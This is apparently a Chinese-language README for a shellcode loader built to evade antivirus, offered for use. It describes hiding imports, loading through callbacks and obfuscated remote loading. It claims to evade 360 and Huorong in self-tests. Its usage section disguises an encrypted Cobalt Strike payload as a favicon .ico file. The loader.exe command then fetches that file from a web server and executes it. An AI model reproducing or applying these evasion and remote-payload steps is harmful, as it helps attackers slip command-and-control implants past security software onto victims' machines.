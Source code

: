 ##  没什么好介绍

1.去除了关键函数导入表

2.使用回调函数进行加载

3.shellcode混淆远程加载

## 缺点一堆
1.只能使用64位C# shellcode等等。。。

2.自测免杀某60/某绒。。
![1.png](/1.png)
![2.png](/2.png)

## 方法
使用enc.exe加密cs生成payload.cs文件,会在当前目录生成favicon32.ico把文件放服务器使用python起个服务提供远程下载，使用loader.exe进行远程加载
```bash
enc.exe Payload.cs

loader.exe  http://192.168.1.1:80/favicon32.ico

```
